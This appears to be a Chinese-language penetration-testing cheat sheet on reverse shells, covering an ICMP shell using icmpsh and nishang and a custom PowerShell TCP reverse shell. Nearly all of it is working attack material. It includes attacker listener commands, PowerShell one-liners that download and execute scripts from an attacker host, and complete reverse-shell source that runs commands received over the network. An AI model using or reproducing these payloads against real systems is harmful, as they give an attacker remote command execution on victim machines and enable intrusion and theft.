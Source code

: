 #### Reverse ICMP Shell

需要利用[icmpsh_m.py](https://github.com/inquisb/icmpsh)和nishang中的Invoke-PowerShellIcmp.ps1 来反弹ICMP shell。

- 首先攻击端下载icmpsh_m.py文件

  ```
  icmpsh_m.py Usage：
  python icmpsh_m.py [Attacker IP] [Victim IP]
  ```

- 攻击者执行：

  ```
  sysctl -w net.ipv4.icmp_echo_ignore_all=1 #忽略所有icmp包
  python icmpsh_m.py [Attacker IP] [Victim IP] #开启监听
  ```

- 目标机执行：

  ```powershell
  powershell IEX (New-Object Net.WebClient).DownloadString('http://[host]/nishang/Shells/Invoke-PowerShellIcmp.ps1');Invoke-PowerShellIcmp -IPAddress [host]
  ```

## 自定义powershell函数反弹shell

- 攻击机：

  ```
  nc -lvp [port]
  ```

- 目标机：

  ```powershell
  powershell -nop -c "$client = New-Object Net.Sockets.TCPClient('[host]',[port]);$stream = $client.GetStream();
  [byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;
  $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );
  $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
  $stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
  ```

  或者保存为lltest_tcp.ps1文件

  ```powershell
  powershell IEX (New-Object Net.WebClient).DownloadString('http://[host]/lltest_tcp.ps1');Invoke-lltestTcp
  ```

  lltest_tcp.ps1 如下：

  ```powershell
  function Invoke-lltestTcp
  {
  $client = New-Object Net.Sockets.TCPClient('[host]',[port])
  $stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0}
  while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
  {
  $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i)
  $sendback = (iex $data 2>&1 | Out-String )
  $sendback2 = $sendback + 'PS ' + (pwd).Path + '> '
  $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
  $stream.Write($sendbyte,0,$sendbyte.Length)
  $stream.Flush()
  }
  $client.Close()
  }
  ```